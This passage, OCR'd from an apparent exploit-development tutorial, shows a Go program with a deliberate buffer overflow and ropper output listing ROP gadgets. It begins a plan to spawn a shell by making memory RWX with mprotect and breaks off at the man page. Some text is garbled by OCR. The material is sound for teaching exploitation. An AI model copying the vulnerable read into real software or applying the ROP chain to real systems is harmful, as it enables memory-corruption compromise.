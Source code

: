         // now read into the confused slice from STDIN. This is not quite as bad as a gets() call in C, but almost. The
        // function will read up to 512 byte, but the underlying buffer is only 8 bytes. This function is the complete
        // vulnerability, nothing else needed
        ,  = reader.Read(confusedSlice)



        The following command shows quite a lot of ROP gadgets (snippets) that are contained in our binary:

        shell
        ropper --file main --search "%
        0x000000000041996b: adc al, 0; ret;
        0x000000000042dee5: adc al, 0x1f; mov dword ptr [rsp + 0x28], edx; mov qword ptr [rsp + 0x30], rax; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
        0x000000000042da80: adc al, 0x24; call 0x2d660; mov rbp, qword ptr [rsp + 0x40]; add rsp, 0x48; ret;
        0x000000000044ba26: adc al, 0x24; call 0x4b190; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
        0x000000000046c199: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x10]; add rsp, 0x18; ret;
        0x000000000046bffa: adc al, 0x24; call 0x6bec0; mov rbp, qword ptr [rsp + 0x28]; add rsp, 0x30; ret;
        0x00000000004614fa: adc al, 0x24; call rcx;
        [...]


        Ropper even provides some automated search tools, but in this specific case they couldn't automatically find a complete
        exploit chain, so I had to dig in using my own hands.


        POC: Spawning a shell

        Putting the ROP techniques from above into play, the plan looks like this:

        1. Set the executable and writable flags for a memory page belonging to the program
        2. Write some code that spawns a shell into the page
        3. Jump to that code

        The following steps are based on the excellent blog articles [[4, 5, 6]](references). Give them a read for even more details on ROP
        chains and exploit development.


        **Step 1: Get a memory page with RWX permissions**

        To do this, we use the mprotect syscall. Its man page explains the usage:

        c
        int mprotect(void *addr, sizet len, int prot);

        mprotect() changes the access protections for the calling process's memory pages containing any part of the address
        range in the interval [addr, addr+len-1]. addr must be aligned to a page boundary.


